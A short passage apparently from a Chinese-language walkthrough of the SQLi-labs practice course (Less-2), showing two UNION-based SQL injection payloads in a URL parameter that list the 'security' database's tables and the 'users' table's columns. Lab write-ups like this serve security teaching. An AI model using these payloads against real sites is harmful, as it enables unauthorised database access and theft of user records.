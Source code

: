 

+ 注入

~~~ shell
?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'
~~~

![Less-2_9](./img/Less-2_9.PNG)



+ 注入

~~~ shell
?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'
~~~
